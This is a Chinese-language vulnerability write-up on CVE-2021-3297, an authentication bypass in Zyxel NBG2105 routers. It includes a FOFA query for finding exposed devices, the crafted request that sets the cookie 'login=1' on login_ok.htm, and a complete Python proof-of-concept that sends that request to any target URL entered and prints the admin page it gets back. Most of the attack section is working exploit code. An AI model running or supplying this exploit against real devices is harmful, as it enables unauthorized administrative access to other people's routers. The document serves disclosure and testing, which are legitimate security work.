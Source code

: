 # Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

```
Zyxel NBG2105
```

## FOFA

```
app="ZyXEL-NBG2105"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140930455.png)

其中前端文件 **/js/util_gw.js** 存在前端对 Cookie login参数的校验

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140930281.png)

可以看到检测到 Cookie中的 **login=1** 则跳转 home.html

```plain
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```

请求如下则会以管理员身份跳转到 **home.htm页面**

```plain
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140931038.png)

## 漏洞POC

```
# python3
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning


def poc(url):
    exp = url + "/login_ok.htm"

    header = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cookie":"login=1",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=exp, headers=header, verify=False,timeout=10)
        #print(response.text)
        if response.status_code == 200 and "GMT" in response.text:
            print(exp + " 存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
            print("数据信息如下：")
            print(response.text)
        else:
            print(exp + " 不存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
    except Exception as e:
        print(exp + "请求失败！！")


def main():
    url = str(input("请输入目标url："))
    poc(url)


if __name__ == "__main__":
    main()
```

## 参考文章

https://github.com/nieldk/vulnerabilities/blob/main/zyxel%20nbg2105/Admin%20bypass

